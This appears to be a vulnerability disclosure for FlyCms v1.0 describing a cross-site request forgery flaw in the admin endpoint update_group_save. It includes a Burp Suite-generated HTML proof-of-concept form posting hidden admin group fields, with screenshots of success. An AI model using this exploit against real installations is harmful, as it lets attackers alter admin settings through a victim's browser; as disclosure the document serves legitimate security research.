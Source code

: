 target:https://github.com/sunkaifei/FlyCms
version: v1.0

FlyCms v1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /system/admin/update_group_save

![1](https://github.com/biantaibao/cms/assets/131763503/3d4e1794-a8b9-4239-af68-6adf0bbbe028)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.192/system/admin/update_group_save" method="POST">
      <input type="hidden" name="name" value="cs1" />
      <input type="hidden" name="id" value="936684533204660224" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

![2](https://github.com/biantaibao/cms/assets/131763503/3d8f7df0-a7b7-4900-8952-468f6797d27b)


Successed

![3](https://github.com/biantaibao/cms/assets/131763503/1d4118f1-e0cc-444f-a468-a0fcae4d7166)
